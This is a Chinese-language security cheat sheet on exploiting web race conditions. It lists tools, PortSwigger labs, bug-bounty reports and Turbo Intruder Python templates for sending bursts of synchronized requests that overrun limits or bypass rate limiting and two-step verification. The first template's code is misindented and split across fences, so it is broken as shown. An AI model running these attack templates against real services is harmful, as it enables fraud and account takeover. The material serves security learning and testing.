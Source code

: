 # 竞态条件

> 当一个进程关键地或意外地依赖于其他事件的顺序或时间时，可能会发生竞态条件。在可以同时处理多个请求的Web应用程序环境中，开发者可能会让并发由框架、服务器或编程语言来处理。

## 摘要

- [工具](#工具)
- [实验室](#实验室)
- [利用](#利用)
  - [限制溢出](#限制溢出)
  - [绕过速率限制](#绕过速率限制)
- [技术](#技术)
  - [HTTP/1.1 最后字节同步](#http11-最后字节同步)
  - [HTTP/2 单数据包攻击](#http2-单数据包攻击)
- [Turbo Intruder](#turbo-入侵者)
  - [示例1](#示例1)
  - [示例2](#示例2)
- [参考资料](#参考资料)


## 工具

* [PortSwigger/turbo-intruder](https://github.com/PortSwigger/turbo-intruder) - 一个Burp Suite扩展，用于发送大量HTTP请求并分析结果。
* [JavanXD/Raceocat](https://github.com/JavanXD/Raceocat) - 使在Web应用程序中利用竞态条件变得高效且易于使用。


## 实验室

* [PortSwigger - 限制溢出竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)
* [PortSwigger - 多端点竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - 通过竞态条件绕过速率限制](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)
* [PortSwigger - 多端点竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - 单端点竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)
* [PortSwigger - 利用时间敏感漏洞](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
* [PortSwigger - 部分构造竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction)


## 利用

### 限制溢出

透支限额、多次投票、多次使用一张礼品卡。

**示例**:

* [竞态条件允许多次兑换礼品卡，导致获得免费“金钱” - @muon4](https://hackerone.com/reports/759247)
* [可以使用竞态条件绕过邀请限制 - @franjkovic](https://hackerone.com/reports/115007)
* [使用一个邀请注册多个用户 - @franjkovic](https://hackerone.com/reports/148609)


### 绕过速率限制

绕过反暴力破解机制和两步验证。

**示例**:

* [Instagram密码重置机制竞态条件 - Laxman Muthiyah](https://youtu.be/4O9FjTMlHUM)


## 技术

### HTTP/1.1 最后字节同步

发送除最后一个字节外的每个请求，然后通过发送最后一个字节来“释放”每个请求。

使用Turbo Intruder执行最后字节同步

```py
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

**示例**:

* [破解reCAPTCHA，Turbo Intruder风格 - James Kettle](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style)


### HTTP/2 单数据包攻击

在HTTP/2中，您可以通过单个连接同时发送多个HTTP请求。在单数据包攻击中，大约会发送20/30个请求，并且它们将同时到达服务器。使用单个请求消除网络抖动。

* [turbo-intruder/race-single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py)
* Burp Suite
  * 将请求发送到Repeater
  * 复制请求20次（CTRL+R）
  * 创建一个新组并添加所有请求
  * 并行发送组（单数据包攻击）

**示例**:

* [CVE-2022-4037 - 使用单数据包攻击发现Gitlab中的竞态条件漏洞 - James Kettle](https://youtu.be/Y0NVIVucQNE)


## Turbo Intruder

### 示例1

1. 向turbo intruder发送请求

2. 使用此Python代码作为turbo intruder的有效载荷

   ```python
   def queueRequests(target, wordlists):
       engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False
                           )
   
   for i in range(30):
       engine.queue(target.req, i)
           engine.queue(target.req, target.baseInput, gate='race1')
   ```


        engine.start(timeout=5)
    engine.openGate('race1')
    
        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```

3. 现在设置外部HTTP头x-request: %s - :warning: 这是由turbo intruder所需的
4. 点击“攻击”


### 示例2

当您必须在发送request1后立即发送request2的竞态条件时，可以使用以下模板，此时窗口可能只有几毫秒。

```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```

## 参考资料

* [DEF CON 31 - 粉碎状态机：Web竞态条件的真正潜力 - James Kettle](https://youtu.be/tKJzsaB1ZvI)
* [粉碎状态机：Web竞态条件的真正潜力 - James Kettle / @albinowax - 2023年8月9日](https://portswigger.net/research/smashing-the-state-machine)
* [Turbo Intruder：拥抱十亿请求攻击 - James Kettle - 2019年1月25日](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
* [Web应用中的竞态条件漏洞案例 - Mandeep Jadon - 2018年4月24日](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
* [Web上的竞态条件 - Josip Franjkovic - 2016年7月12日](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
* [Web竞态条件的新技术和工具 - Emma Stocks - 2023年8月10日](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
* [在Web应用程序中利用竞态条件漏洞 - Javan Rasokat](https://conference.hitb.org/hitbsecconf2022sin/materials/D2%20COMMSEC%20-%20Exploiting%20Race%20Condition%20Vulnerabilities%20in%20Web%20Applications%20-%20Javan%20Rasokat.pdf)